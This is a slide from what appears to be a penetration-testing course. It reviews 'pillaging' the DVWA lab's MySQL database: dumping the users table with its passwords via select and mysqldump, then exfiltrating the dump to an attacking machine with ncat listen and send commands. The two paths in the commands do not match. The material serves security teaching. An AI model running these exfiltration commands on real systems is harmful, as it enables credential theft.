

# Pillaging SQL Database Review
Takeaways:
Find user information in the dvwa database by using the describe keyword to list tables.
Select the dvwa database with use.
Use select * from user to dump user, password information.
Use mysqldump to save the dvwa.users table to /tmp/dvwa.users.sql: sudo mysqldump dvwa users > /tmp/dvwa.users.sql
Use Ncat to transfer the database to the attacking machine.
On Attacker: ncat -lvp 2222 > dvwa.users.sql
On Victim: ncat <Attacking Machine IP Address> 2222 < /tmp/dvwa/users.sql

37